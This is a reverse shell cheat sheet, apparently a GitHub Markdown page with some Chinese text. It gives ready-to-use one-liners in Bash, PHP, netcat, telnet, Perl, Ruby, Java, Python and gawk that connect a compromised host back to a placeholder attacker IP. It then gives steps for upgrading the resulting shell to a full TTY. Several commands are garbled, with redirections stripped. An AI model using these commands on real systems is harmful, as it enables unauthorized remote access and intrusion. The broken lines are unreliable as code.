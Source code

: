 ### From  Reverse Shell to Spawning a TTY Shell then Upgrade it

* [<em>Reverse shell</em>](#reverse-shell)
* [Spawning a TTY Shell](#spawning-a-tty-shell)
* [Upgrading TTY Shell](#upgrading-tty-shell)
* [Reference](#reference)

* [ChangeLog](#changelog)
#### *Reverse shell*

***Built-in Bash***

```bash
$ exec /bin/bash 0&0 2>&0
$ 0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196


$ exec 5<>/dev/tcp/ATTACKING-IP/80
$ cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

$ while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
$ bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

***PHP Reverse Shell***

```PHP
$ php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

***Netcat Reverse Shell***

```bash
$ nc -e /bin/sh ATTACKING-IP 80

$ /bin/sh | nc ATTACKING-IP 80

$ rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

***Telnet Reverse Shell***

```bash
$ rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

$ telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

***Perl Reverse Shell***

```PERL
$ perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

*Perl Windows Reverse Shell*

```BASH
$ perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```BASH
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

***Ruby Reverse Shell***

```RUBY
$ ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

***Java Reverse Shell***

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

***Python Reverse Shell***

```PYTHON
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

***Gawk Reverse Shell***

```SHELL
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

#### Spawning a TTY Shell

- `python -c 'import pty; pty.spawn("/bin/sh")'`
- `echo os.system('/bin/bash')`
- `/bin/sh -i`
- `perl —e 'exec "/bin/sh";'`
- `perl: exec "/bin/sh";`
- `ruby: exec "/bin/sh"`
- `lua: os.execute('/bin/sh')`
- `exec "/bin/sh"`  From within IRB
- `:!bash` From within vi
- `:set shell=/bin/bash:shell` From with wi

#### Upgrading TTY Shell

1. 升级成 *tty shell*

```bash
[www-data@targethosts]$ python -c 'import pty;pty.spawn("/bin/bash")'
```

2. 在 *shell* 中设置 *term* 类型为 *kali* 的 *term* 类型

```bash
root@kali# echo $TERM
					 xterm-256color
```

```bash
[www-data@targethosts]$ export TERM=xterm-256color
[www-data@targethosts]$ export SHELL=/bin/bash
```

3. 检查 *term* 的 *rows* 和 *columns*

```shell
root@kali# stty size
					 23		80
```

4. 将得到的 *shell* 放在后台运行

```bash
[www-data@targethosts]$ ^Z
												[1]+ Stopped   nc -lvp 449
												
[www-data@targethosts]$ stty raw -echo;fg
```

接着执行 *reset* 命令进行对 *shell* 初始化，并通过 *stty* 设置 *rows* 和 *columns*

```bash
[www-data@targethosts]$ stty raw -echo;fg
												nc -lvp 449
																		reset
																		
[www-data@targethosts]$ stty rows 24 columns 80
```

***tips*** ： 如果出现 `'xterm-256color': unknown terminal type.`，则说明 *targethosts* 不支持该终端，可以改为 `xterm`。



### Reference

- [upgrade-shell-to-fully-interactive-tty-shell/](https://www.metahackers.pro/upgrade-shell-to-fully-interactive-tty-shell/)
- [reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)



### ChangeLog

- 191713 init
